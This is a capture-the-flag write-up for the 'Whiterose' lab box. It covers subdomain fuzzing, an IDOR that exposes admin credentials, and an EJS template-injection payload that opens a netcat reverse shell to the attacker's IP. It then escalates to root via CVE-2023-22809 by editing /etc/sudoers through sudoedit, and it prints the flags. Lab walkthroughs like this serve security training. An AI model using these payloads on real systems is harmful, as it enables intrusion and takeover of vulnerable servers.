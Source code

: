 # Whiterose Write-up

We are given some information about the target. The ip address and possible some login info Olivia Cortez:olivi8

With an initial nmap scan we find two services running

#### $nmap -sC -sV -v {ip_address}

1. SSH on port 22
2. HTTP on port 80

With the original given information, we can try to SSH into the machine but basic guesses don't reveal anything.

Going to the HTTP page brings us a page that can't be resolved, however, adding it to the /etc/hosts file gives us a webpage that doesn't 
give any information beyond that it's currently undergoing maintenance. Using gobuster doesn't reveal anything, so we pivot to ffuf for some domain enumeration.

#### wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt -u http://cyprusbank.thm/ -H 'HOST: FUZZ.cyprusbank.thm' --hc 400,404 -c

Immediately we are given admin.cyprusbank.thm which we add to hosts file. Working through the different pages, we find a page to login using the Olivia credentials given to us. Given the two tables, Tyrell Wellick's phone number isn't available.

Working through the different pages we come across the messages page with an interesting url

#### admin.cyprusbank.thm/messages/?c=5

A url with a value using a direct reference like this is know as IDOR or Insecure Direct Object Reference. By changing the value of c to 0, we get access to messages detailing admin login information.

#### Username: Gayle Bev
#### Password: p~]P@5!6;rs558:q

After gaining admin access and navigating back to the home page, the answer to the question of Tyrell Wellick phone number is there.

#### 842-029-5701

Moving onto the settings page, which wasn't available before. By testing with some dummy data the page returns a password updated alert after submitting.
Playing around with this doesn't yield anything as it can't seem to force the system to update a password to any specific accounts we could then login with.

Using burpsuite, more options are possible to delve deeper into the system. Capturing a request and deleting the password file generates:
#### ReferenceError: /home/web/app/views/settings.ejs
Googling for an embedded JavaScript exploit gives an Remote Code Execution (RCE) exploit using Server-Side Template Injection (SSTI).

Using an exploit found here https://github.com/mde/ejs/issues/735

After starting a nc listener on our local machine we start listening to catch the shell from our exploit

#### nc -lvnp 4444

We can deliver the payload 

#### &settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc {local_ip} 4444 -e /bin/bash');

After catching our reverse shell we stabilize it with:

#### python3 -c 'import pty;pty.spawn("/bin/bash")'
Then on host machine
#### ctrl+Z
#### stty raw -echo; fg

Type reset, press enter, ctrl+c which gives a responsive shell.

Looking around gives the answer to the second question of the user.txt flag.

#### THM{4lways_upd4te_uR_d3p3nd3nc!3s}

Starting by checking for any possible sudo commands, we have the ability to run sudoedit.

Using CVE-2023-22809, add an editor variable with

#### export EDITOR="nano -- /etc/sudoers"

#### sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

Adding the exploit in to User privilege escalation.

### web ALL=(ALL:ALL) NOPASSWD: ALL

Finding the root.txt flag is as simple as 

#### sudo bash

and opening the root.txt final giving the final flag

#### THM{4nd_uR_p4ck4g3s}








